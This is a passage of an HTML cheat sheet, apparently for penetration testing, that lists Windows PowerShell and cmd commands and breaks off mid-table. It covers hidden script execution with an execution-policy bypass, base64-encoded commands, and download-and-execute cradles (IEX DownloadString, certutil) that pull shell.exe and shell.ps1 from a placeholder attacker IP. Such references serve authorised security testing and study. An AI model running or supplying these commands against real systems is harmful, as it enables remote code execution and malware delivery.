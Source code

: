     <li>Miscellaneous</li>
    <table>
        <tr>
            <td>Secretly run scripts</td>
            <td>powershell.exe -ExecutionPolicy Bypass –NoLogo –NonInteractive –NoProfile –File &lt;file.ps1&gt;</td>
        </tr>
        <tr>
            <td>enable colors</td>
            <td>reg add HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1</td>
        </tr>
        <tr>
            <td>dot-source / load all variables & functions from powershell script</td>
            <td>.\&lt;script&gt;.ps1<br>iex (New-Object System.Net.Webclient).DownloadString(&#039;https://website.com/url/to/file.ps1&#039;)</td>
        </tr>
    </table>

    <h2>File Transfers</h2>
    <li>Download to Windows</li>
    <table>
        <tr>
            <td>Base64 Decoding</td>
            <td><li>powershell -e &lt;base 64&gt;</li></td>
        </tr>
        <tr>
            <td>Download file</td>
            <td>
                <li>invoke-webrequest -Uri http://&lt;ip address&gt;/shell.exe [-OutFile &lt;file&gt;]</li>
                <li>IWR -Uri &lt;url&gt; [-OutFile &lt;file&gt;]</li>
            </td>
        </tr>
        <tr>
            <td>Download file with Powershell</td>
            <td>
                <li>powershell -c &quot;(new-object System.Net.WebClient).DownloadFile(&#039;http://&lt;ip address&gt;/wget.exe&#039;,&#039;C:\&lt;output directory and file name&gt;&#039;)</li>
                <li>powershell  &quot;(new-object System.Net.WebClient).DownloadFile(&#039;http://&lt;ip address&gt;/wget.exe&#039;,&#039;C:\&lt;output directory and file name&gt;&#039;)&quot;</li>
                <li>(new-object System.Net.WebClient).DownloadFile(&#039;http://&lt;ip address&gt;/shell.ps1&#039;,&lt;output directory and file name&gt;&#039;)</li>
                <li>wget &lt;url&gt; -outfile &lt;file name&gt;</li>
            </td>
        </tr>
        <tr>
            <td>Download file with cmd</td>
            <td>certutil -urlcache -split -f http://&lt;ip address&gt;/&lt;file name&gt; C:\\&lt;output directory and file name&gt;</td>
        </tr>
        <tr>
            <td>Download and run powershell script</td>
            <td>
                <li>powershell -c &quot;IEX(New-Object Net.WebClient).downloadString(&#039;http://&amp;lt;ip address&amp;gt;/shell.ps1&#039;)&quot;</li>
                <li>powershell &quot;IEX(New-Object Net.WebClient).downloadString(&#039;http://&amp;lt;ip address&amp;gt;/shell.ps1&#039;)&quot;</li>
                <li>IEX(IWR http:/&amp;lt;ip address&amp;gt;/shell.ps1 -UseBasicParsing)</li>
                <li>IEX(IWR(&lt;url&gt;))</li>
            </td>
        </tr>
        <tr>
            <td>SMB</td>
            <td>
                <li>Mount SMB share using powershell to new drive and using powershell credential object</li>